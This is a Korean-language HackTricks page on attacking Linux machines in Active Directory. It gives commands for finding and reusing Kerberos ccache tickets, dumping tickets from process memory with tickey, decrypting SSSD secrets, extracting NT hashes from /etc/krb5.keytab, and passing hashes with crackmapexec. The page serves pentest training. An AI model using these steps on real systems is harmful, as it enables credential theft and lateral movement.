 # Linux Active Directory

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

{% embed url="https://websec.nl/" %}

리눅스 머신은 Active Directory 환경 내에 존재할 수 있습니다.

AD의 리눅스 머신은 **파일 내에 다양한 CCACHE 티켓을 저장하고 있을 수 있습니다. 이 티켓은 다른 kerberos 티켓처럼 사용되고 남용될 수 있습니다**. 이 티켓을 읽으려면 티켓의 사용자 소유자이거나 **root**여야 합니다.

## Enumeration

### 리눅스에서 AD 열거

리눅스(또는 Windows의 bash)에 AD에 대한 접근 권한이 있는 경우 [https://github.com/lefayjey/linWinPwn](https://github.com/lefayjey/linWinPwn)를 사용하여 AD를 열거할 수 있습니다.

리눅스에서 AD를 열거하는 **다른 방법**을 배우려면 다음 페이지를 확인할 수 있습니다:

{% content-ref url="../../network-services-pentesting/pentesting-ldap.md" %}
[pentesting-ldap.md](../../network-services-pentesting/pentesting-ldap.md)
{% endcontent-ref %}

### FreeIPA

FreeIPA는 Microsoft Windows **Active Directory**에 대한 오픈 소스 **대안**으로, 주로 **Unix** 환경을 위해 설계되었습니다. Active Directory와 유사한 관리 기능을 위해 MIT **Kerberos** 키 배포 센터와 완전한 **LDAP 디렉토리**를 결합합니다. CA 및 RA 인증서 관리를 위해 Dogtag **Certificate System**을 사용하며, 스마트카드를 포함한 **다중 인증**을 지원합니다. Unix 인증 프로세스를 위해 SSSD가 통합되어 있습니다. 자세한 내용은 다음에서 확인하세요:

{% content-ref url="../freeipa-pentesting.md" %}
[freeipa-pentesting.md](../freeipa-pentesting.md)
{% endcontent-ref %}

## 티켓 다루기

### Pass The Ticket

이 페이지에서는 **리눅스 호스트 내에서 kerberos 티켓을 찾을 수 있는 다양한 장소**를 찾을 수 있으며, 다음 페이지에서는 이 CCache 티켓 형식을 Kirbi(Windows에서 사용해야 하는 형식)로 변환하는 방법과 PTT 공격을 수행하는 방법을 배울 수 있습니다:

{% content-ref url="../../windows-hardening/active-directory-methodology/pass-the-ticket.md" %}
[pass-the-ticket.md](../../windows-hardening/active-directory-methodology/pass-the-ticket.md)
{% endcontent-ref %}

### /tmp에서 CCACHE 티켓 재사용

CCACHE 파일은 **Kerberos 자격 증명**을 저장하기 위한 이진 형식으로, 일반적으로 `/tmp`에 600 권한으로 저장됩니다. 이 파일은 **이름 형식 `krb5cc_%{uid}`**로 식별할 수 있으며, 이는 사용자의 UID와 관련이 있습니다. 인증 티켓 검증을 위해 **환경 변수 `KRB5CCNAME`**을 원하는 티켓 파일의 경로로 설정하여 재사용할 수 있습니다.

`env | grep KRB5CCNAME`으로 인증에 사용되는 현재 티켓을 나열합니다. 형식은 이식 가능하며, `export KRB5CCNAME=/tmp/ticket.ccache`로 환경 변수를 설정하여 티켓을 **재사용할 수 있습니다**. Kerberos 티켓 이름 형식은 `krb5cc_%{uid}`이며, 여기서 uid는 사용자 UID입니다.
```bash
# Find tickets
ls /tmp/ | grep krb5cc
krb5cc_1000

# Prepare to use it
export KRB5CCNAME=/tmp/krb5cc_1000
```
### CCACHE 티켓 재사용 from keyring

**프로세스의 메모리에 저장된 Kerberos 티켓은 추출될 수 있습니다**, 특히 머신의 ptrace 보호가 비활성화된 경우(`/proc/sys/kernel/yama/ptrace_scope`). 이 목적을 위한 유용한 도구는 [https://github.com/TarlogicSecurity/tickey](https://github.com/TarlogicSecurity/tickey)에서 찾을 수 있으며, 세션에 주입하고 `/tmp`에 티켓을 덤프하여 추출을 용이하게 합니다.

이 도구를 구성하고 사용하기 위해서는 아래 단계를 따릅니다:
```bash
git clone https://github.com/TarlogicSecurity/tickey
cd tickey/tickey
make CONF=Release
/tmp/tickey -i
```
이 절차는 다양한 세션에 주입을 시도하며, 성공을 `/tmp`에 `__krb_UID.ccache`라는 명명 규칙으로 추출된 티켓을 저장함으로써 나타냅니다.

### SSSD KCM에서 CCACHE 티켓 재사용

SSSD는 `/var/lib/sss/secrets/secrets.ldb` 경로에 데이터베이스의 복사본을 유지합니다. 해당 키는 `/var/lib/sss/secrets/.secrets.mkey` 경로에 숨겨진 파일로 저장됩니다. 기본적으로, 키는 **root** 권한이 있는 경우에만 읽을 수 있습니다.

\*\*`SSSDKCMExtractor` \*\*를 --database 및 --key 매개변수와 함께 호출하면 데이터베이스를 구문 분석하고 **비밀을 복호화**합니다.
```bash
git clone https://github.com/fireeye/SSSDKCMExtractor
python3 SSSDKCMExtractor.py --database secrets.ldb --key secrets.mkey
```
The **자격 증명 캐시 Kerberos blob은 Mimikatz/Rubeus에 전달할 수 있는 사용 가능한 Kerberos CCache** 파일로 변환될 수 있습니다.

### keytab에서 CCACHE 티켓 재사용
```bash
git clone https://github.com/its-a-feature/KeytabParser
python KeytabParser.py /etc/krb5.keytab
klist -k /etc/krb5.keytab
```
### /etc/krb5.keytab에서 계정 추출

루트 권한으로 운영되는 서비스에 필수적인 서비스 계정 키는 **`/etc/krb5.keytab`** 파일에 안전하게 저장됩니다. 이러한 키는 서비스의 비밀번호와 유사하며, 엄격한 기밀성을 요구합니다.

keytab 파일의 내용을 검사하기 위해 **`klist`**를 사용할 수 있습니다. 이 도구는 사용자 인증을 위한 **NT Hash**를 포함한 키 세부 정보를 표시하도록 설계되었습니다. 특히 키 유형이 23으로 식별될 때 그렇습니다.
```bash
klist.exe -t -K -e -k FILE:C:/Path/to/your/krb5.keytab
# Output includes service principal details and the NT Hash
```
Linux 사용자에게 **`KeyTabExtract`**는 NTLM 해시 재사용을 위해 활용할 수 있는 RC4 HMAC 해시를 추출하는 기능을 제공합니다.
```bash
python3 keytabextract.py krb5.keytab
# Expected output varies based on hash availability
```
macOS에서, **`bifrost`**는 keytab 파일 분석을 위한 도구로 사용됩니다.
```bash
./bifrost -action dump -source keytab -path /path/to/your/file
```
추출된 계정 및 해시 정보를 활용하여 **`crackmapexec`**와 같은 도구를 사용하여 서버에 연결할 수 있습니다.
```bash
crackmapexec 10.XXX.XXX.XXX -u 'ServiceAccount$' -H "HashPlaceholder" -d "YourDOMAIN"
```
## References

* [https://www.tarlogic.com/blog/how-to-attack-kerberos/](https://www.tarlogic.com/blog/how-to-attack-kerberos/)
* [https://github.com/TarlogicSecurity/tickey](https://github.com/TarlogicSecurity/tickey)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#linux-active-directory](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#linux-active-directory)

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
